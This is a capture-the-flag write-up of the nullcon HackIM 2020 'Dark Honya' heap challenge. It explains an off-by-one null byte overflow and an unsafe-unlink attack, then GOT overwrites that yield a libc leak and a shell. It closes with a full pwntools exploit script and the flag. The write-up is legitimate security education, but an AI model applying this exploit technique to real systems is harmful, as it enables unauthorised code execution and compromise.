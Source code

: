 ```yaml
---
title: Dark Honya 
ctf: "nullcon HackIM 2020"
tags: [nullcon20, pwn, writeup]
date: 2020-02-09
seo:
date_modified: 2020-02-16 19:50:45 +0000
description: "Null byte overflow on a heap chunk, which enables a use-after-free. Use unsafe-unlink to get a libc leak and a shell."
---
```

With [Jorge](https://twitter.com/jorge_cmartins) and [jofra](https://twitter.com/V_jofra)

**Points:** 460 (dynamic)

## TL;DR
1. Null byte overflow on heap chunk
2. Free overflown chunk
3. Overwrite ptr array 
4. Write `printf@plt` on `free@got` to obtain a libc leak
5. Write `system` on `atoi@got` to get a shell


### Binary Mitigations
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

## Reversing
The program provided three functionalities:

#### 1. Buy a book
```c
void buy()
{
  char *chunk; 
  signed int i;

  for ( i = 0; ptr[i]; ++i )
    ;
    
  if ( i <= 15 )
  {
    chunk = malloc(0xF8);
    puts("Name of the book?");
    read_f8_buff(chunk);
    ptr[i] = chunk;
  }
  else
  {
    puts("Next time bring a bag with you!");
  }
}
```
#### 2. Return a book
```c
void put_back()
{
  int idx; 

  puts("Which book do you want to return?");
  idx = read_int();
  if ( (unsigned int)idx > 0xF )
    puts("boy, you cannot return what you dont have!");
  free(ptr[idx]);
  ptr[idx] = 0;
}

```

#### 3. Write on a book
```c
void write()
{
  int idx; 

  idx = read_int();
  if ( (unsigned int)idx <= 0xF )
  {
    puts("Name of the book?");
    read_f8_buff(ptr[idx]);
  }
  else
  {
    puts("Writing in the air now?");
  }
}
```

## Vulnerability

The binary uses `read_f8_buff` when reading data to buffers. This function reads 0xf8 bytes to a buffer and appends a '\x00' character to the end of the buffer. If 0xf8 characters are provided, the '\x00' will be appended out of bounds.

```c
void read_f8_buff(char *buff)
{
  int bytes_read; 

  bytes_read = read(0, buff, 0xF8);
  if ( bytes_read == -1 )
    puts("Err read string");
  buff[bytes_read] = 0; // off by one vulnerability
}
```

[](https://i.imgur.com/43FDHCJ.png)

## Exploitation Plan

### Step 1 - Control global ptr array entries
We can leverage the off-by-one vulnerability in `read_f8_buffer` to force a coalesce with an allocated chunk. This will call the `unlink` macro.

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            
    FD = P->fd;								      
    BK = P->bk;					
    // we have to satisfy this check
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  
    else {		
        // important part
        FD->bk = BK;							   
        BK->fd = FD;							      
        ...							      
      }									      
}
```
By controlling the `FD` and `BK` pointers, we can write the chunk `BK` and `FD`s address on arbitrary memory, as long as `FD->bk == P` and `BK->fd == P`. So, effectively, we must have a pointer in memory to `P`. 

When we allocate a `chunk` its address is stored on the global `ptr` list.

This address points to the usable area inside the chunk (i.e. not the actual beginning of the chunk). With this in mind we prepare a `fake chunk` at the stored address with modified `size`,`fd` and `bk`pointers and next chunk's `prev_size`. We then free the next chunk to trigger a coalesce which will use the unlink macro.


[](https://i.imgur.com/QM5Q6jt.png)

This will overwrite ptr_array[2] with &ptr_array-8 (fake_chunk->fd). 

### Step 2 - Leak libc

We now control the global `ptr` array, so we can insert arbitrary addresses and use the write functionality to achieve a **write_what_where**. 
We will now:
1. Insert `free@got`'s address on the `ptr` array
2. Use the write functionality to replace the `free@got` with `printf@plt`
3. "Free" a chunk with a format string as it's content which will call `printf` and get us a`libc leak`


### Step 3 - Get shell

Since we have a`libc leak`, the next step is to call `system("/bin/sh")`. To do this we overwrite the `atoi` entry on the got with `system`. This way when the program asks us for the menu option we simply provide the string `/bin/sh`.


## Exploit Script
```python

from pwn import *

def go():
    s = remote("pwn2.ctf.nullcon.net", 5002)
    libc = ELF("./libc-2.23.so")
    ptr = 0x6021b0
    leak_offset = 0x20830
    
    # we're not using the name
    s.send("A"*8)

    # alocate 4 chunks
    for n in range(5-1):
        alloc(s, chr(ord('A')+n)*0x10)
    
    # alocate 5th chunk with format string needed to obtain a leak
    alloc(s, "LEAK:%15$p")

    # .bss entry must point to chunk-0x10, so we will create a fake chunk
    # 0x10 bytes after our allocated chunk, populating the prev_size with the 
    # correct size of our fake chunk
    write_name(s, 2, '\x00'*8 + p64(0xf1) + p64(ptr-0x18) + p64(ptr-0x10) + (0xf8-0x28)*'A' + p64(0xf0))

    # free the third chunk, triggering the unlink 
    free(s, 3)

    # free 0x602018
    # &ptr-0x8 is now written on the third entry of the pointer list
    # we now use it to change the first pointer to point to free@got
    write_name(s, 2, '\x00'*8 + p64(0x602018))


    # overwrite both free and puts to printf
    write_name(s, 0, p64(0x400680) + p64(0x400680))

    # trigger the printf on the fifth chunk and obtain a libc leak
    free(s, 4)

    s.recvuntil("LEAK:")
    libc.address = int(s.recv(14)[2:], 16) - leak_offset

    log.info("libc      @ {}".format(hex(libc.address)))

    # atoi 0x602060
    # replace atoi with system
    write_name(s, 2, '\x00'*8 + p64(0x602060))

    write_name(s, 0, p64(libc.symbols['system']))   

    s.sendline("/bin/sh")
    s.sendline("cat flag")

    s.interactive()

go()

# hackim20{Cause_Im_coming_atcha_like_a_dark_honya_?}
```

